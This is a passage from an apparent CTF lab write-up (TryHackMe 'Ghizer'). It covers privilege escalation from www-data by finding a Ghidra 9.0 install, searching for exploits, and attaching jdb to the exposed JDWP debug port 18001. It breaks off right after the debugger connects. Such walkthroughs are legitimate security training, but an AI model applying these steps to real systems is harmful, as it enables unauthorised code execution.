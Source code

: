 - Port 631 is Internet Printing Protocol (IPP), properly it's not the right path to do privilege escalation
- Port 3306 is MySQL, which is we can't escalate to `veronica`
- Port 18001 is a unknown service.

**Also, in the home directory in `veronica`, it has a dircetory called `ghira_9.0`:**
```
www-data@ubuntu:/home/veronica$ ls -lah
drwxrwxrwx  9 veronica veronica 4.0K Feb 28  2019 ghidra_9.0
```

**And then I searched Ghidra exploit in `searchsploit`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# searchsploit ghidra                              
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Ghidra (Linux) 9.0.4 - .gar Arbitrary Code Execution                  | linux/local/47231.py
---------------------------------------------------------------------- ---------------------------------

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# searchsploit -m 47231
```

There is a Ghidra RCE in version 9.0.4!

**By reading the exploit, it needs a `.gar` file:**
```py
# Line 35
parser.add_argument("file", help="Path to input export .gar file",default=1)
```

However, this exploit **requires an interaction with the Ghidra GUI.**

After I googling more about Ghidra 9.0 exploits, I found that there is a GitHub Issues says [RCE Through JDWP Debug Port](https://github.com/NationalSecurityAgency/ghidra/issues/6).

```
Remote code execution is achievable through the JDWP debug port 18001 which is opened to all interfaces when launching in debug mode.
```

Then, I also found a [YouTube demo video](https://www.youtube.com/watch?v=N3VcWIUpgfE&ab_channel=EthicalHackersClub) that showcasing this exploit.

**To exploit it, I'll:**

- Use `jdb` debugger to attach port 18001:

```
www-data@ubuntu:/home/veronica$ jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 
```
